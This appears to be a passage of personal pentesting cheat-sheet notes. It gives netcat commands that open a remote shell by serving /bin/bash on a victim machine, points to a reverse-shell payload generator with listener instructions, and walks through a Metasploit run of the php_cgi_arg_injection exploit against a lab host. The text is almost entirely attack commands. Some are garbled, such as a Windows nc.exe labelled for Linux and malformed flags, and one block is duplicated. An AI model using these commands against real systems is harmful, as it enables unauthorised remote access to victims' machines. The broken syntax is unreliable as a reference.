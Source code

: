 ```shell
nc -nv <target-IP> 1234
```
> run this on attacker system to get the remote access of victum

***for linux***

```shell
nc.exe -n nvlp 1234 -c /bin/bash
```
> run on victum system cmd (linux system)

```shell
nc -nv <target-IP> 1234
```
> run this on attacker system to get the remote access of victum

***cheatSheet***

```url
https://www.revshells.com/
```
> There is a website where we can generate a reverse shell payload by entering the attacker's IP address and port (e.g., 1234). After generating the payload, we execute the `nc -nvlp 1234` command on the attacker's system to start a listener. Once the generated payload is executed on the victim's system on cmd, it establishes a connection back to the attacker's machine, granting remote access.


#### Exploit PHP

```url
url/phpinfo.php
```
> version lower then 5.3.1

```shell
msfconsole
use exploit/multi/http/php_cgi_arg_injection
set RHOSTS demo.ine.local
run
```

#### 
